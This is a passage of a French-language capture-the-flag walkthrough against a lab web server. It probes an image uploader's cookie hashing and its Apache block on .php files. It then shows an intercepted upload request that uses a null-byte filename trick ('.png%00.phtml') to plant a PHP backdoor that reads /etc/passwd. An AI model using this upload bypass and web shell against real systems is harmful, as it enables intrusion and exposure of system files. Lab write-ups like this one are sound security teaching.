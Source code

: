 Le navigateur enchaîne donc sur */image.php* avec le nouveau cookie. La page retourne un html avec un tag *img* qui reprend la valeur envoyée par le cookie.  

Au passage le cookie est réinitialisé (*Set-Cookie: trypios=uploader*) en vue d'un prochain upload.  

D'où vient le hash de l'image utilisé comme valeur de cookie et comme nom de l'image uploadée ? Si on envoie deux fois de suite la même image, le hash sera le même.  

En revanche si on renvoie toujours la même image mais avec un nom différent le hash change. Après vérification le hash correspond en effet à la somme MD5 du nom de fichier original.  

On remarque aussi une particularité concernant le dossier */images/* où sont stockées les images uploadés :  

Si on remplace l'extension *png* par *php* dans la barre d'adresse du navigateur on obtient une erreur 403 (accès refusé) alors que si on met une extension au hasard (.truc) on obtient un 404.  

Il en va de même avec des fichiers inexistants : 403 pour */images/whatever.php*, 404 pour */images/whatever.truc*.  

On est donc en présence d'une directive Apache (probablement un *htaccess*) qui bloque l'accès aux fichiers *php* dans ce dossier.  

A noter que l'extension *.phtml* n'est pas bloquée et retourne un 404 pour un fichier inexistant.  

Seulement il ne suffit pas d'envoyer un fichier en .phtml.png pour qu'il soit accessible avec l'extension *.phtml* dans */images/*.  

Il faut donc ruser sur l'extension.  

Envoie sa sœur
--------------

Pour cette opération j'ai eu recours à [Charles Proxy](http://www.charlesproxy.com/). La version d'essai suffit.  

Il doit être possible d'utiliser des outils similaires comme *Zed Attack Proxy* ou *Burp* mais j'ai pris l'habitude de *Charles* qui est très évolué.  

Après voir configuré *Charles* comme proxy HTTP intercepteur et fait un upload de la backdoor en *.png.html*, on édite la requête HTTP pour modifier l'extension en *.png%00.phtml* (on injecte un octet nul) :  

```plain
POST /upload.php HTTP/1.1
Host: 192.168.1.30:8880
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-fr;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: text
Referer: http://192.168.1.30:8880/index.php
Cookie: trypios=nop
Connection: keep-alive
Content-Type: multipart/form-data; boundary=charles-multipart1403440237845-41248
Content-Length: 333

--charles-multipart1403440237845-41248
Content-Disposition: form-data; name="image"; filename="bd.png%00.phtml"
Content-Type: application/php

<? readfile("/etc/passwd"); ?>

--charles-multipart1403440237845-41248
Content-Disposition: form-data; name="Submit"

Host My Awesome Image
--charles-multipart1403440237845-41248--
```
